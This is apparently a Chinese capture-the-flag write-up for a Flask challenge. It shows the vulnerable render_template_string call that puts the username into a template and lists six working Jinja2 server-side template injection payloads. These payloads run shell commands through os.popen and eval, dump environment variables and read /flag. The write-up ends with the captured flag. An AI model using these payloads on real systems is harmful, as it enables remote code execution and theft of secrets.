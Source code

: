 # Web-20｜第二十章 幽冥血海·幻语心魔

## 碎碎念

SSTI 注入（有点类似 SQL 注入）
***
## Writeup

观察 app.py，有一个非常危险的注入点（很像 SQL 注入）：

```python
login_msg = render_template_string(f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>欢迎: {username}</div></div>
            </div>
            """)
```

只要我们在 username 动手脚可以执行任意代码，这称为模板注入漏洞（SSTI），有以下几个方法均可用：

```python
{{ config.__class__.__init__.__globals__['os'].popen('env').read() }}
{{ lipsum.__globals__['os'].popen('env').read() }}
{{ request.application.__globals__["__builtins__"]["__import__"]("os").popen("env").read() }}
{% print(url_for.__globals__['__builtins__']['eval']("__import__('os').popen('env').read()"))%}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('env').read()") }}{% endif %}{% endfor %}
{{self.__init__.__globals__.__builtins__.open('/flag').read()}}
```

得到 flag：

![](../../../../assets/Pasted%20image%2020251029201723.png)

最终 flag：`moectf{e26f1e2f-ab02-d924-898e-4aecb7d46b00}`